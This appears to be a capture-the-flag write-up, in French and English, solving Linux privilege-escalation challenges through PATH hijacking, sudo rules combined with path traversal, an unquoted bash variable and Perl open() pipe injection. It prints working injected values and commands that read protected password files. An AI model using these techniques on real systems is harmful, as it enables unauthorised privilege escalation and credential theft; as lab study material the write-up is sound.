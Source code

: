 ### Utilisation du PATH

Avec script c u+s

Copy de cat comme ls dans /tmp ou /var/tmp: $ cp /bin/cat /tmp/ls (n'importe quelle commande dont on a besoin cat ou nano ou autre)

modif du PATH dans lequelle les commande vont être exécutée: $ PATH=/tmp

éxecution du script qui va donc utiliser le cat comme ls

### Les dangers de sudo

sudo permet d'exécuter des commandes en tant qu'un autre utilisateur

sudo -l permet de voir quelle commandes peuvent être lancée et par quel utilisateur

sudo -u $user $commande

dans le cas de cette exercice:

```bash 
$ sudo -l
User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/notes/*

$ sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/notes/*

$ sudo -u app-script-ch1-cracked cat /challenge/app-script/ch1/notes/../ch1cracked/.passwd
```

### Unquoted variables

Solution

```
./wrapper "42 -o 1 -eq 1" 
````

Explanation
This condition needs to be passed (line 18):
````
if test $PASS -eq ${1}; then
````

Note that `${1}` is unquoted!
Hence, it will be "split" before being passed to the `test` command.

So, we need:

Something that is an integer to make a valid comparison to $PASS;
A condition that is always true: `1 -eq 1`.
And the condition will be split to become:
````
$PASS -eq 42 -o 1 -eq 1
````

### PERL - Command injection

setuid-wrapper SUID program execute the perl file ch7.pl
so after reading the perl issue article montioned in this challenge .
i found in code only The open() function so i focus on it issues here where the solution appear to me

The Perl documentation tells us that:

   If the filename begins with "|", the filename is interpreted as a command to which output is to be piped, and if the filename ends with a "|", the filename is interpreted as a command which pipes output to us.
so i run
````
./setuid-wrapper
#it run python script as SUID permission
| /bin/cat ~/.passwd
````
et voila

thank you .

Sources
Split/Glob effect on unquoted variables: https://unix.stackexchange.com/questions/171346/security-implications-of-forgetting-to-quote-a-variable-in-bash-posix-shells#answer-171347;
OR operation for the test command: https://tldp.org/LDP/abs/html/comparison-ops.html#CCOMPARISON1 .
